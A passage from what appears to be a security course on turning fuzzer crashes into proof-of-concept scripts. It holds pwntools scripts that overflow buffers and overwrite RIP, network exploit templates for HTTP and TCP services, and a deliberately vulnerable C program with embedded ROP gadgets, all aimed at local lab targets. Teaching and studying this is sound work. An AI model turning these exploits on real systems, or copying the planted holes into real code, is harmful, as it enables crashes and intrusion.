def create_payload(size=200, control_rip=False):
    """Generate overflow payload"""

    if control_rip:
        # Controlled RIP overwrite
        payload = b"A" * RIP_OFFSET
        payload += p64(0xdeadbeefcafebabe)  # Overwrite RIP
        payload += b"C" * 50  # Extra padding
    else:
        # Simple crash payload
        payload = b"A" * size

    return payload

def test_crash(payload):
    """Test if payload causes crash"""

    log.info(f"Testing payload of {len(payload)} bytes")

    try:
        p = process([TARGET, TEST_CASE, payload])
        p.wait(timeout=2)
        exit_code = p.returncode
        p.close()

        # Check for crash signals
        if exit_code is not None and exit_code < 0:
            signal_names = {-11: "SIGSEGV", -6: "SIGABRT", -4: "SIGILL"}
            sig_name = signal_names.get(exit_code, f"signal {-exit_code}")
            log.success(f"Crash confirmed! ({sig_name})")
            return True
        else:
            log.warning(f"No crash (exit code: {exit_code})")
            return False

    except Exception as e:
        log.error(f"Error: {e}")
        return False

def verify_rip_control():
    """Verify we can control RIP"""

    log.info("Verifying RIP control...")

    payload = create_payload(control_rip=True)

    # Run under GDB to check RIP value
    p = process([TARGET, TEST_CASE, payload])
    p.wait(timeout=2)

    log.info("Check core dump or GDB output for RIP = 0xdeadbeefcafebabe")
    p.close()

def test_reliability(attempts=10):
    """Test crash reliability"""

    log.info(f"Testing reliability ({attempts} attempts)")

    payload = create_payload(size=200)
    crashes = 0

    for i in range(attempts):
        if test_crash(payload):
            crashes += 1

    rate = (crashes / attempts) * 100
    log.info(f"Crash rate: {crashes}/{attempts} ({rate:.1f}%)")

    return rate >= 90

def main():
    context.log_level = 'info'

    log.info("=" * 60)
    log.info("Stack Buffer Overflow PoC - vulnerable_suite.c")
    log.info("=" * 60)

    # Change to lab directory
    os.chdir(os.path.expanduser("~/crash_analysis_lab"))

    if not os.path.exists(TARGET):
        log.error(f"Target not found: {TARGET}")
        log.info("Build with: gcc -g -fno-stack-protector -no-pie -z execstack src/vulnerable_suite.c -o vuln_no_protect")
        return 1

    import argparse
    parser = argparse.ArgumentParser(description="Stack Overflow PoC")
    parser.add_argument("--verify-rip", action="store_true", help="Verify RIP control")
    parser.add_argument("--test", action="store_true", help="Test reliability")
    parser.add_argument("--size", type=int, default=200, help="Payload size")
    args = parser.parse_args()

    if args.verify_rip:
        verify_rip_control()
    elif args.test:
        if test_reliability():
            log.success("PoC is reliable!")
        else:
            log.warning("PoC may be unreliable")
    else:
        payload = create_payload(size=args.size)
        test_crash(payload)

    return 0

if __name__ == "__main__":
    sys.exit(main())
```

**Running the PoC**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

### Automated Crash-to-PoC Pipeline

**Complete Automation Script**:

```python
#!/usr/bin/env python3
"""
Automated Crash-to-PoC Pipeline for vulnerable_suite.c

Takes a crash input, minimizes it, analyzes it, and generates a PoC script.

Usage:
    cd ~/crash_analysis_lab
    source .venv/bin/activate
    python3 crash_to_poc.py crashes/stack_150.txt --test-case 1
"""

import subprocess
import os
import sys
from pathlib import Path

# Lab configuration
LAB_DIR = os.path.expanduser("~/crash_analysis_lab")
TARGET_NO_PROTECT = os.path.join(LAB_DIR, "vuln_no_protect")
TARGET_ASAN = os.path.join(LAB_DIR, "vuln_asan")
TARGET_AFL = os.path.join(LAB_DIR, "vuln_afl")

def minimize_crash(crash_file, test_case, output_file):
    """Minimize crash input using binary search

    Note: afl-tmin uses @@ which passes a filename, but vulnerable_suite
    expects CLI arguments. We use a Python-based minimizer instead.
    """

    print(f"[+] Minimizing {crash_file}...")

    # Read crash payload
    with open(crash_file, 'rb') as f:
        payload = f.read().decode('latin-1', errors='ignore').strip()

    def crashes_with_payload(p):
        """Test if payload crashes the target"""
        try:
            result = subprocess.run(
                [TARGET_ASAN, test_case, p],
                capture_output=True, timeout=5
            )
            # ASAN returns non-zero on crash
            return result.returncode != 0
        except subprocess.TimeoutExpired:
            return False

    # Check if original crashes
    if not crashes_with_payload(payload):
        print(f"[-] Original payload doesn't crash, copying as-is")
        import shutil
        shutil.copy(crash_file, output_file)
        return True

    orig_size = len(payload)

    # Binary search for minimum size
    low, high = 1, len(payload)
    while low < high:
        mid = (low + high) // 2
        if crashes_with_payload(payload[:mid]):
            high = mid
        else:
            low = mid + 1

    minimized = payload[:low]

    with open(output_file, 'w') as f:
        f.write(minimized)

    reduction = ((orig_size - len(minimized)) / orig_size) * 100
    print(f"[+] Minimized: {orig_size} → {len(minimized)} bytes ({reduction:.1f}% reduction)")
    return True

def analyze_crash(crash_file, test_case):
    """Analyze crash with ASAN build

    Note: Heap overflow (test 2) and UAF (test 3) are SILENT without ASAN!
    Always use the ASAN build for analysis.
    """

    print(f"[+] Analyzing {crash_file} with test case {test_case}...")

    if not os.path.exists(TARGET_ASAN):
        print(f"[-] ASAN binary not found: {TARGET_ASAN}")
        print("[!] Build with: clang -g -fsanitize=address src/vulnerable_suite.c -o vuln_asan")
        return {"type": "Unknown", "asan_output": ""}

    # Read payload from file (handle binary data)
    with open(crash_file, "rb") as f:
        payload = f.read().decode('latin-1', errors='ignore').strip()

    try:
        result = subprocess.run(
            [TARGET_ASAN, test_case, payload],
            capture_output=True,
            text=True,
            timeout=5
        )
    except subprocess.TimeoutExpired:
        print(f"[-] Analysis timed out")
        return {"type": "Timeout", "asan_output": ""}

    asan_output = result.stderr

    # Extract crash type from ASAN output
    if "stack-buffer-overflow" in asan_output:
        crash_type = "Stack Buffer Overflow"
    elif "heap-buffer-overflow" in asan_output:
        crash_type = "Heap Buffer Overflow"
    elif "heap-use-after-free" in asan_output:
        crash_type = "Use-After-Free"
    elif "double-free" in asan_output:
        crash_type = "Double-Free"
    elif "SEGV on unknown address" in asan_output:
        crash_type = "NULL Pointer Dereference"
    else:
        crash_type = "Unknown"

    print(f"[+] Crash type: {crash_type}")

    return {
        "type": crash_type,
        "asan_output": asan_output,
        "test_case": test_case
    }

def generate_poc_script(crash_file, test_case, analysis, output_script):
    """Generate Python PoC script"""

    print(f"[+] Generating PoC script: {output_script}")

    # Read crash payload
    with open(crash_file, "r") as f:
        crash_data = f.read().strip()

    # Determine target based on crash type
    # Heap bugs (heap overflow, UAF) need ASAN to crash reliably
    needs_asan = analysis["type"] in ["Heap Buffer Overflow", "Use-After-Free"]
    target_binary = "vuln_asan" if needs_asan else "vuln_no_protect"
    target_note = "# Note: Using ASAN build - heap bugs are silent without sanitizer!" if needs_asan else ""

    # Generate PoC template
    poc_template = f'''#!/usr/bin/env python3
"""
Proof-of-Concept: {analysis["type"]} in vulnerable_suite.c

Generated automatically by crash-to-poc pipeline
Test Case: {test_case}
"""

from pwn import *
import os
import sys

# Configuration
LAB_DIR = os.path.expanduser("~/crash_analysis_lab")
TARGET = os.path.join(LAB_DIR, "{target_binary}")
TEST_CASE = "{test_case}"
{target_note}

def generate_payload():
    """Generate crash payload"""

    payload = {repr(crash_data)}

    return payload

def test_crash():
    """Test crash reliability"""

    os.chdir(LAB_DIR)

    if not os.path.exists(TARGET):
        log.error(f"Target not found: {{TARGET}}")
        return False

    log.info("Testing PoC...")

    payload = generate_payload()
    p = process([TARGET, TEST_CASE, payload])

    try:
        p.wait(timeout=2)
    except Exception:
        pass

    result = p.returncode
    p.close()

    # Check for crash signals:
    # -11 = SIGSEGV (segmentation fault)
    # -6  = SIGABRT (abort, common with ASAN)
    # Non-zero exit also indicates ASAN detected issue
    if result is not None and result != 0:
        if result < 0:
            signal_names = {{-11: "SIGSEGV", -6: "SIGABRT", -4: "SIGILL", -8: "SIGFPE"}}
            sig_name = signal_names.get(result, f"signal {{-result}}")
            log.success(f"Crash confirmed! ({{sig_name}})")
        else:
            log.success(f"Crash confirmed! (ASAN exit code {{result}})")
        return True
    else:
        log.warning(f"No crash (exit code: {{result}})")
        return False

def test_reliability(attempts=10):
    """Test PoC reliability"""

    log.info(f"Testing reliability ({{attempts}} attempts)")

    crashes = 0
    for i in range(attempts):
        if test_crash():
            crashes += 1

    rate = (crashes / attempts) * 100
    log.info(f"Crash rate: {{crashes}}/{{attempts}} ({{rate:.1f}}%)")

    return rate >= 90

if __name__ == "__main__":
    import argparse
    parser = argparse.ArgumentParser()
    parser.add_argument("--test", action="store_true", help="Test reliability")
    args = parser.parse_args()

    if args.test:
        test_reliability()
    else:
        test_crash()
'''

    with open(output_script, "w") as f:
        f.write(poc_template)

    os.chmod(output_script, 0o755)
    print(f"[+] PoC script created: {output_script}")

def process_crash(crash_file, test_case, output_dir):
    """Complete pipeline for one crash"""

    crash_name = Path(crash_file).stem
    output_dir = Path(output_dir)
    output_dir.mkdir(exist_ok=True)

    print("=" * 60)
    print(f"Processing: {crash_name} (test case {test_case})")
    print("=" * 60)

    # Step 1: Minimize
    minimized_file = output_dir / f"{crash_name}_min.txt"
    minimize_crash(crash_file, test_case, str(minimized_file))

    # Step 2: Analyze
    analysis = analyze_crash(str(minimized_file), test_case)
    if not analysis:
        print("[-] Analysis failed")
        return False

    # Step 3: Generate PoC
    poc_script = output_dir / f"{crash_name}_poc.py"
    generate_poc_script(str(minimized_file), test_case, analysis, str(poc_script))

    # Step 4: Test PoC
    print("[+] Testing generated PoC...")
    result = subprocess.run(["python3", str(poc_script)], capture_output=True, text=True)
    print(result.stdout)
    if result.stderr:
        print(result.stderr)

    return True

def main():
    import argparse

    parser = argparse.ArgumentParser(description="Automated Crash-to-PoC Pipeline for vulnerable_suite.c")
    parser.add_argument("crash", help="Crash input file (contains payload)")
    parser.add_argument("--test-case", "-t", default="1", help="Test case number (1-5)")
    parser.add_argument("--output-dir", "-o", default="./pocs", help="Output directory")
    args = parser.parse_args()

    os.chdir(LAB_DIR)

    if not os.path.exists(args.crash):
        print(f"[-] Crash file not found: {args.crash}")
        return 1

    if not os.path.exists(TARGET_NO_PROTECT):
        print(f"[-] Target binary not found: {TARGET_NO_PROTECT}")
        print("[*] Build with: cd ~/crash_analysis_lab/src && gcc -g -fno-stack-protector -no-pie -z execstack vulnerable_suite.c -o ../vuln_no_protect")
        return 1

    if process_crash(args.crash, args.test_case, args.output_dir):
        print("\n[+] Pipeline complete!")
        return 0
    else:
        print("\n[-] Pipeline failed")
        return 1

if __name__ == "__main__":
    sys.exit(main())
```

**Running the Pipeline**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# Run the pipeline for stack overflow (test case 1)
python3 crash_to_poc.py crashes/stack_crash.txt --test-case 1 --output-dir pocs/

# Run for heap overflow (test case 2)
python3 -c "print('B'*100)" > crashes/heap_crash.txt
python3 crash_to_poc.py crashes/heap_crash.txt --test-case 2 --output-dir pocs/

# heap_crash_min.txt  heap_crash_poc.py  stack_crash_min.txt  stack_crash_poc.py

# Test heap overflow PoC (uses ASAN automatically)
python3 pocs/heap_crash_poc.py --test

# [*] Crash rate: 8/10 (80.0%)
```

> [!NOTE] **Minimization Results**
>
> - Stack overflow: 200 → **64 bytes** (exact buffer size in `stack_overflow()`)
> - Heap overflow: 100 → **32 bytes** (exact buffer size in `heap_overflow()`)
> - The minimizer finds the exact boundary where overflow occurs!

> [!TIP] **Reliability Note**
> The ~80% crash rate is due to pwntools `process()` timeout/race conditions (shows "Stopped process" with `exit code: None`), not actual unreliability.
> These are deterministic bugs that crash 100% when run directly:
>
> ```bash
> ./vuln_no_protect 1 "$(python3 -c "print('A'*64)")"  # Always SIGSEGV
> ./vuln_asan 2 "$(python3 -c "print('B'*32)")"        # Always ASAN error
> ```

### PoC Development for Network Services

Many real-world vulnerabilities are in network services. The `vuln_http_server` from Day 4 is a good example. These require socket-based PoCs rather than stdin-based.

**Network Service PoC for vuln_http_server** (from Day 4):

```python
#!/usr/bin/env python3
"""
Network Service PoC for vuln_http_server

Target: ~/crash_analysis_lab/vuln_http_server
Port: 8888
Type: Heap Buffer Overflow in HTTP path parsing
"""

from pwn import *
import socket
import time
import os
import subprocess

# Configuration
HOST = "127.0.0.1"
PORT = 8888
TIMEOUT = 5
LAB_DIR = os.path.expanduser("~/crash_analysis_lab")
TARGET = os.path.join(LAB_DIR, "vuln_http_server")

def start_server():
    """Start the vulnerable HTTP server"""

    if not os.path.exists(TARGET):
        log.error(f"Server not found: {TARGET}")
        log.info("Build with: clang -g -O1 -fsanitize=address src/vuln_http_server.c -o vuln_http_server")
        return None

    log.info(f"Starting server on port {PORT}...")
    proc = subprocess.Popen([TARGET], cwd=LAB_DIR,
                           stdout=subprocess.DEVNULL,
                           stderr=subprocess.DEVNULL)
    time.sleep(0.5)  # Wait for server to start
    return proc

def create_connection():
    """Establish connection to target service"""
    try:
        conn = remote(HOST, PORT, timeout=TIMEOUT)
        return conn
    except Exception as e:
        log.error(f"Connection failed: {e}")
        return None

def create_payload(path_size=200):
    """Generate exploit payload - overflow in HTTP path"""

    # HTTP GET request with oversized path
    payload = b"GET /"
    payload += b"A" * path_size  # Overflow the 64-byte path buffer
    payload += b" HTTP/1.1\r\n"
    payload += b"Host: localhost\r\n"
    payload += b"\r\n"

    return payload

def exploit():
    """Main exploit function"""

    log.info(f"Connecting to {HOST}:{PORT}")
    conn = create_connection()

    if not conn:
        return False

    # Send payload
    payload = create_payload(path_size=200)
    log.info(f"Sending {len(payload)} byte payload")
    conn.send(payload)

    # Check for crash
    try:
        response = conn.recv(timeout=2)
        log.info(f"Response: {response[:100]}")
    except EOFError:
        log.success("Connection closed - server likely crashed")
        return True
    except:
        log.success("No response - server likely crashed")
        return True

    conn.close()
    return False

def test_reliability(attempts=5):
    """Test exploit reliability"""

    log.info(f"Testing reliability ({attempts} attempts)")

    successes = 0
    for i in range(attempts):
        log.info(f"Attempt {i+1}/{attempts}")

        # Start fresh server for each attempt
        server = start_server()
        if not server:
            continue

        if exploit():
            successes += 1

        # Clean up
        server.terminate()
        time.sleep(0.5)

    rate = (successes / attempts) * 100
    log.info(f"Success rate: {successes}/{attempts} ({rate:.1f}%)")

    return rate >= 80

if __name__ == "__main__":
    import argparse

    parser = argparse.ArgumentParser(description="HTTP Server PoC")
    parser.add_argument("--host", default=HOST, help="Target host")
    parser.add_argument("--port", type=int, default=PORT, help="Target port")
    parser.add_argument("--test", action="store_true", help="Test reliability")
    parser.add_argument("--start-server", action="store_true", help="Start server before exploit")
    args = parser.parse_args()

    HOST = args.host
    PORT = args.port

    if args.test:
        test_reliability()
    else:
        if args.start_server:
            server = start_server()
            if server:
                exploit()
                server.terminate()
        else:
            exploit()
```

**Running the HTTP Server PoC**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# Make sure server is built
clang -g -O1 -fsanitize=address src/vuln_http_server.c -o vuln_http_server

# [*] Success rate: 5/5 (100.0%)
```

**Generic Network Service PoC Template**:

```python
#!/usr/bin/env python3
"""
Network Service Exploit PoC Template

Target: [Service Name] version X.Y.Z
Port: [Port Number]
Protocol: [TCP/UDP]
CVE: [CVE-ID if assigned]
"""

from pwn import *
import socket
import time

# Configuration
HOST = "127.0.0.1"
PORT = 8080
TIMEOUT = 5

def create_connection():
    """Establish connection to target service"""
    try:
        # Option 1: Using pwntools (preferred)
        conn = remote(HOST, PORT, timeout=TIMEOUT)
        return conn
    except Exception as e:
        log.error(f"Connection failed: {e}")
        return None

def create_payload():
    """Generate exploit payload"""

    # Protocol-specific header
    payload = b"GET /"

    # Overflow/exploit data
    payload += b"A" * 200  # Adjust based on analysis

    # Protocol-specific trailer
    payload += b" HTTP/1.1\r\n"
    payload += b"Host: localhost\r\n"
    payload += b"\r\n"

    return payload

def exploit():
    """Main exploit function"""

    log.info(f"Connecting to {HOST}:{PORT}")
    conn = create_connection()

    if not conn:
        return False

    # Wait for banner if needed
    try:
        banner = conn.recvuntil(b"\n", timeout=2)
        log.info(f"Banner: {banner}")
    except:
        pass

    # Send payload
    payload = create_payload()
    log.info(f"Sending {len(payload)} byte payload")
    conn.send(payload)

    # Check for crash or shell
    try:
        response = conn.recv(timeout=2)
        log.info(f"Response: {response[:100]}")
    except EOFError:
        log.success("Connection closed - service likely crashed")
    except:
        pass

    conn.close()
    return True

def test_reliability(attempts=10):
    """Test exploit reliability"""

    log.info(f"Testing reliability ({attempts} attempts)")

    successes = 0
    for i in range(attempts):
        if exploit():
            successes += 1
        time.sleep(0.5)  # Allow service restart

    rate = (successes / attempts) * 100
    log.info(f"Success rate: {successes}/{attempts} ({rate:.1f}%)")

    return rate >= 90

if __name__ == "__main__":
    import argparse

    parser = argparse.ArgumentParser(description="Network Service PoC")
    parser.add_argument("--host", default=HOST, help="Target host")
    parser.add_argument("--port", type=int, default=PORT, help="Target port")
    parser.add_argument("--test", action="store_true", help="Test reliability")
    args = parser.parse_args()

    HOST = args.host
    PORT = args.port

    if args.test:
        test_reliability()
    else:
        exploit()
```

**HTTP Service PoC Template**:

```python
#!/usr/bin/env python3
"""HTTP Service Vulnerability PoC"""
from pwn import *
import requests

TARGET = "http://127.0.0.1:8080"

def exploit_via_header():
    """Exploit via malicious HTTP header"""

    headers = {
        "Host": "localhost",
        "X-Vulnerable-Header": "A" * 500 + p32(0xdeadbeef).decode('latin-1'),
        "Content-Type": "application/x-www-form-urlencoded"
    }

    try:
        response = requests.get(f"{TARGET}/vulnerable", headers=headers, timeout=5)
        log.info(f"Response: {response.status_code}")
    except requests.exceptions.ConnectionError:
        log.success("Server crashed!")
    except Exception as e:
        log.error(f"Error: {e}")

def exploit_via_body():
    """Exploit via POST body"""

    payload = b"param=" + b"A" * 1000

    try:
        response = requests.post(
            f"{TARGET}/api/vulnerable",
            data=payload,
            timeout=5
        )
    except requests.exceptions.ConnectionError:
        log.success("Server crashed!")

def exploit_raw_socket():
    """Low-level exploit via raw socket"""

    # For when requests library doesn't work
    # (malformed HTTP, binary protocols, etc.)

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(("127.0.0.1", 8080))

    # Send malformed HTTP
    payload = b"GET /\x00overflow" + b"A" * 500 + b" HTTP/1.1\r\n\r\n"
    sock.send(payload)

    try:
        response = sock.recv(1024)
    except:
        log.success("Crash triggered")

    sock.close()

if __name__ == "__main__":
    exploit_via_header()
```

**TCP Protocol PoC Template**:

```python
#!/usr/bin/env python3
"""Generic TCP Protocol PoC"""
from pwn import *

def exploit_custom_protocol():
    """Exploit custom TCP protocol"""

    conn = remote("127.0.0.1", 9999)

    # Protocol handshake
    conn.recvuntil(b"READY\n")

    # Send command with overflow
    conn.send(b"AUTH ")
    conn.send(b"A" * 256)  # Overflow
    conn.send(b"\n")

    # Check result
    try:
        response = conn.recvline(timeout=2)
        log.info(f"Response: {response}")
    except EOFError:
        log.success("Crash!")

    conn.close()

if __name__ == "__main__":
    exploit_custom_protocol()
```

### PoC Development for Rust and Go Programs

Modern memory-safe languages still crash—through panics, FFI bugs, or unsafe code blocks. When creating PoCs for Rust or Go targets, the workflow differs from C/C++.

# AddressSanitizer for unsafe code
RUSTFLAGS="-Zsanitizer=address" cargo +nightly build --target x86_64-unknown-linux-gnu
ASAN_OPTIONS=detect_leaks=1 ./target/x86_64-unknown-linux-gnu/debug/program

# ThreadSanitizer
RUSTFLAGS="-Zsanitizer=thread" cargo +nightly build --target x86_64-unknown-linux-gnu

# MemorySanitizer
RUSTFLAGS="-Zsanitizer=memory" cargo +nightly build --target x86_64-unknown-linux-gnu

# Examine Rust variables
(gdb) info locals
(gdb) print my_vec.len
```

**Analyzing FFI Crashes** (Rust calling C):

```bash

# Build Rust with ASAN
RUSTFLAGS="-Zsanitizer=address -Clink-arg=-fsanitize=address" \
    cargo +nightly build

# Crash report shows which side caused corruption
```

**Rust PoC Template** (for Rust targets with unsafe code):

```python
#!/usr/bin/env python3
"""PoC for Rust program with unsafe code vulnerability"""
from pwn import *
import os

# Adjust path to your Rust binary
TARGET = "./target/release/vulnerable_rust"

def create_rust_poc():
    # Rust programs often use different calling conventions
    # Focus on triggering the unsafe block or FFI boundary

    payload = b""
    payload += b"A" * 128  # Overflow in unsafe block

    return payload

def test_crash():
    if not os.path.exists(TARGET):
        log.error(f"Target not found: {TARGET}")
        return False

    p = process([TARGET])
    p.send(create_rust_poc())

    try:
        p.wait(timeout=2)
    except:
        pass

    if p.returncode and p.returncode < 0:
        log.success("Crash triggered!")
        return True
    return False

if __name__ == "__main__":
    test_crash()
```

# For more detail, set GOTRACEBACK
GOTRACEBACK=all ./go_program      # All goroutines
GOTRACEBACK=crash ./go_program    # Crash with core dump
```

**Go Race Detector** (similar to TSAN):

```bash

# Common commands:
(dlv) break main.vulnerableFunction
(dlv) continue
(dlv) print variableName
(dlv) goroutines           # List all goroutines
(dlv) goroutine 5         # Switch to goroutine 5
(dlv) stack               # Current goroutine stack
```

**Go CGo Crashes** (Go calling C):

```bash

# For ASAN with CGo:
CGO_CFLAGS="-fsanitize=address" \
CGO_LDFLAGS="-fsanitize=address" \
go build -o program ./...
```

#### Crash Analysis Comparison

| Aspect                       | Rust                    | Go                      | C/C++                 |
| ---------------------------- | ----------------------- | ----------------------- | --------------------- |
| **Memory bugs in safe code** | Panic (not exploitable) | Panic (not exploitable) | Crash (exploitable)   |
| **Unsafe/CGo crashes**       | ASAN-detectable         | ASAN via CGo            | ASAN native           |
| **Race conditions**          | Compiler prevents most  | Race detector           | TSAN required         |
| **Backtrace quality**        | Excellent (DWARF)       | Good (Go symbols)       | Varies (need symbols) |
| **Debugger**                 | rust-gdb/lldb           | Delve                   | GDB/LLDB              |
| **Core dump analysis**       | Standard tools          | `go tool pprof`         | crash/GDB             |

### Practical Exercise

**Task**: Convert minimized crashes from Day 5 to reliable PoC scripts

**Setup**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# Create output directory for PoCs
mkdir -p pocs
```

**Step 1: Create Crash Inputs for Each Vulnerability Type**:

```bash
cd ~/crash_analysis_lab

# UAF and double-free don't need payload files (triggered by test case number alone)
```

**Step 2: Run Automated Pipeline**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# Generate PoC for stack overflow
python3 crash_to_poc.py crashes/stack_overflow.txt --test-case 1 --output-dir pocs/

# Generate PoC for heap overflow
python3 crash_to_poc.py crashes/heap_overflow.txt --test-case 2 --output-dir pocs/

# Check generated files
ls -la pocs/
```

**Step 3: Create Manual PoCs for UAF and Double-Free**:

Since UAF and double-free are triggered by test case number alone (no payload needed), create simple PoCs.

> [!WARNING] **UAF requires ASAN build!**
> The UAF vulnerability (test case 3) does NOT crash with `vuln_no_protect` — the memory is silently corrupted but execution continues.
> Always use `vuln_asan` for reliable UAF detection.

```python
#!/usr/bin/env python3
"""
PoC for Use-After-Free in vulnerable_suite.c (Test Case 3)

IMPORTANT: UAF is SILENT without AddressSanitizer!
Use vuln_asan build for reliable crash.
"""
from pwn import *
import os

LAB_DIR = os.path.expanduser("~/crash_analysis_lab")

# UAF requires ASAN to reliably detect!
TARGET = os.path.join(LAB_DIR, "vuln_asan")

def test_uaf():
    os.chdir(LAB_DIR)
    log.info("Testing UAF (test case 3) with ASAN build...")

    p = process([TARGET, "3"])
    p.wait(timeout=2)

    if p.returncode and p.returncode != 0:
        log.success(f"UAF detected! (exit code {p.returncode})")
        return True
    else:
        log.warning("No crash - verify ASAN build is used")
        return False

if __name__ == "__main__":
    test_uaf()
```

Save as `pocs/uaf_poc.py` and create similar for double-free (test case 4) and NULL deref (test case 5).

**Step 4: Test All PoCs**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

echo "=== Testing all PoCs ==="

for poc in pocs/*_poc.py; do
    echo ""
    echo "Testing $(basename $poc)..."
    python3 $poc || echo "FAILED: $poc"
done
#=== Testing all PoCs ===

#Testing heap_crash_poc.py...
#[*] Testing PoC...
#[+] Starting local process '/home/dev/crash_analysis_lab/vuln_asan': pid 17008
#[*] Process '/home/dev/crash_analysis_lab/vuln_asan' stopped with exit code 1 (pid 17008)
#[+] Crash confirmed! (ASAN exit code 1)

#Testing heap_overflow_poc.py...
#[*] Testing PoC...
#[+] Starting local process '/home/dev/crash_analysis_lab/vuln_asan': pid 17015
#[*] Process '/home/dev/crash_analysis_lab/vuln_asan' stopped with exit code 1 (pid 17015)
#[+] Crash confirmed! (ASAN exit code 1)

#Testing stack_crash_poc.py...
#[*] Testing PoC...
#[+] Starting local process '/home/dev/crash_analysis_lab/vuln_no_protect': pid 17022
#[*] Process '/home/dev/crash_analysis_lab/vuln_no_protect' stopped with exit code -11 (SIGSEGV) (pid #17022)
#[+] Crash confirmed! (SIGSEGV)

#Testing stack_overflow_poc.py...
#[*] Testing PoC...
#[+] Starting local process '/home/dev/crash_analysis_lab/vuln_no_protect': pid 17027
#[*] Process '/home/dev/crash_analysis_lab/vuln_no_protect' stopped with exit code -11 (SIGSEGV) (pid #17027)
#[+] Crash confirmed! (SIGSEGV)

#Testing uaf_poc.py...
#[*] Testing UAF (test case 3) with ASAN build...
#[+] Starting local process '/home/dev/crash_analysis_lab/vuln_asan': pid 17032
#[*] Process '/home/dev/crash_analysis_lab/vuln_asan' stopped with exit code 1 (pid 17032)
#[+] UAF detected! (exit code 1)

```

**Step 5: Test PoC Reliability**:

```bash
cd ~/crash_analysis_lab
source .venv/bin/activate

# [*] Crash rate: 10/10 (100.0%)
```

**Expected Results**:

| Vulnerability  | Test Case | PoC File                | Reliability | Notes                     |
| -------------- | --------- | ----------------------- | ----------- | ------------------------- |
| Stack Overflow | 1         | `stack_overflow_poc.py` | 100%        | Crashes with/without ASAN |
| Heap Overflow  | 2         | `heap_overflow_poc.py`  | 100% (ASAN) | **Silent without ASAN!**  |
| Use-After-Free | 3         | `uaf_poc.py`            | 100% (ASAN) | **Silent without ASAN!**  |
| Double-Free    | 4         | `double_free_poc.py`    | 100%        | Crashes with/without ASAN |
| NULL Deref     | 5         | `null_deref_poc.py`     | 100%        | Crashes with/without ASAN |

> [!WARNING] **Critical: ASAN Required for Heap Bugs**
> Heap overflow and UAF vulnerabilities do **not crash** without AddressSanitizer!
> Always test with `vuln_asan` build to detect these bug types.

**Success Criteria**:

- PoC generated for each of the 5 vulnerability types in vulnerable_suite.c
- Each PoC crashes target reliably (use ASAN build for heap overflow and UAF)
- Code is documented with vulnerability type and test case number
- Scripts can be run independently from ~/crash_analysis_lab
- Pipeline runs end-to-end without manual intervention

### Key Takeaways

1. **Reliable PoCs are essential**: Foundation for exploit development and reporting
2. **Automation enables scale**: Manual PoC creation doesn't scale past a few bugs
3. **Testing is critical**: Verify PoC reliability before sharing
4. **Documentation matters**: Clear comments make PoCs useful for others
5. **Python + pwntools is powerful**: Standard toolset for security research
6. **Panics ≠ Vulnerabilities**: Safe Rust/Go panics are DoS at worst
7. **Unsafe code is the attack surface**: Focus analysis on `unsafe` blocks and FFI boundaries
8. **Race conditions matter**: Go's race detector catches what safe code analysis misses
9. **FFI boundaries need ASAN**: Sanitize both sides of language boundaries
10. **Tooling exists**: Use rust-gdb, Delve—don't force C/C++ tools

### Discussion Questions

1. What are the ethical considerations when publishing PoC code?
2. How does PoC reliability (e.g., 10/10 crash rate) affect vulnerability severity assessment?
3. What pwntools features (p32/p64, tubes, ELF parsing) are most useful for PoC development?
4. How can automated crash→minimize→PoC pipelines be integrated into continuous fuzzing workflows?

## Capstone Project - The Crash Analysis Pipeline

- **Goal**: Apply the week's techniques to process a batch of crashes into actionable vulnerability reports and reliable PoCs.
- **Activities**:
  - **Triage**: Deduplicate crashes from the vulnerable_suite and vuln_http_server targets.
  - **Analysis**: Perform root cause analysis on the unique crashes.
  - **Exploitability**: Determine which crashes are weaponizable.
  - **PoC**: Develop stable Python PoCs for the critical bugs.
  - **Reporting**: Deliver a professional crash analysis report.

### Capstone Scenario

You are a security researcher who has completed fuzzing sessions on the lab targets from this week. You have crashes from:

- `vulnerable_suite.c` (test cases 1-5)
- `vuln_http_server.c` (network-accessible)

Your manager wants a report identifying:

1. How many _actual_ unique bugs exist?
2. Which ones are remotely exploitable?
3. Proof-of-concept scripts for the highest severity issues.

### Lab Setup for Capstone

**vulnerable_suite_rop.c** - Enhanced version with embedded ROP gadgets for exploitation exercises:

```c
// ~/crash_analysis_lab/src/vulnerable_suite_rop.c
// Compile: gcc -g -fno-stack-protector -no-pie -z execstack vulnerable_suite_rop.c -o ../vuln_rop
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

// ============================================================================
// ROP GADGET SECTION - These survive compilation due to __attribute__((used))
// ============================================================================

// Gadget: pop rdi; ret - Set first argument (RDI) for function calls
__attribute__((naked, used, section(".text.gadgets")))
void gadget_pop_rdi(void) {
    __asm__ volatile (
        "pop %rdi\n"
        "ret\n"
    );
}

// Gadget: pop rsi; pop r15; ret - Set second argument (RSI)
__attribute__((naked, used, section(".text.gadgets")))
void gadget_pop_rsi_r15(void) {
    __asm__ volatile (
        "pop %rsi\n"
        "pop %r15\n"
        "ret\n"
    );
}

// Gadget: pop rdx; ret - Set third argument (RDX)
__attribute__((naked, used, section(".text.gadgets")))
void gadget_pop_rdx(void) {
    __asm__ volatile (
        "pop %rdx\n"
        "ret\n"
    );
}

// Gadget: jmp rsp - Jump to shellcode on stack (requires -z execstack)
__attribute__((naked, used, section(".text.gadgets")))
void gadget_jmp_rsp(void) {
    __asm__ volatile (
        "jmp *%rsp\n"
    );
}

// Gadget: ret - Stack alignment / ROP chain continuation
__attribute__((naked, used, section(".text.gadgets")))
void gadget_ret(void) {
    __asm__ volatile (
        "ret\n"
    );
}

// Gadget: syscall; ret - Direct syscall (useful for execve)
__attribute__((naked, used, section(".text.gadgets")))
void gadget_syscall(void) {
    __asm__ volatile (
        "syscall\n"
        "ret\n"
    );
}

// Gadget: pop rax; ret - Set syscall number
__attribute__((naked, used, section(".text.gadgets")))
void gadget_pop_rax(void) {
    __asm__ volatile (
        "pop %rax\n"
        "ret\n"
    );
}

// ============================================================================
// WIN FUNCTIONS - Target these to demonstrate successful exploitation
// ============================================================================

// Easy win: prints flag and exits
void win(void) {
    printf("\n");
    printf("========================================\n");
    printf("  EXPLOITATION SUCCESSFUL!\n");
